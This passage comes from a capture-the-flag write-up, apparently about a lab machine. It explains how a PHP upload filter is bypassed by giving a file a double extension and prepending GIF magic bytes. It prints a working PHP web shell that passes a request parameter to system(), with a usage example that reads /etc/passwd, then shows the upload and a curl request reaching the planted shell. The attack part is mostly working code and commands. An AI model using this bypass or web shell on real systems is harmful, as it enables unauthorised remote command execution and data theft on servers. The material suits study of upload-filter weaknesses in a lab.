 function getnameUpload($filename) {
  $pieces = explode('.',$filename);
  $name= array_shift($pieces);
  $name = str_replace('_','.',$name);
  $ext = implode('.',$pieces);
  return array($name,$ext);
}

---

?>
{% endhighlight %}

In summerize, what "upload.php" is doing the followings.
1. Check if the uploaded file is valid with "check_file_type()".
2. "check_file_type()" checks the magic bytes of the file with "check_mime_type()".
3. Check the extension of the uploaded file
4. If these are OK, create a name of uploaded file with "getnameUploaded()"
5. Finally, move the uploaded file from the temporary directory to "/uploads"

This means, by using double extention method, with adding appropriate magic bytes, we can bypass the filter.<br>
At first, create following file.
{% highlight php %}
root@kali:~# cat simple-backdoor.php.gif
GIF89a


<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd


{% endhighlight %}

Then, upload the double extensioned file.<br>
We can see a message which says file is uploaded successfully.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-11-18/2019-11-17-14-49-32.png)

The uploaded file is in the path "/uploads".<br>
According to "photos.php", the name of uploaded file is "10_10_14_13.php.gif"
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-11-18/2019-11-17-14-56-38.png)

We can access to the webshell uploaded just like following.
{% highlight shell %}
root@kali:~# curl http://10.10.10.146/uploads/10_10_14_13.php.gif
GIF89a



Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd


{% endhighlight %}
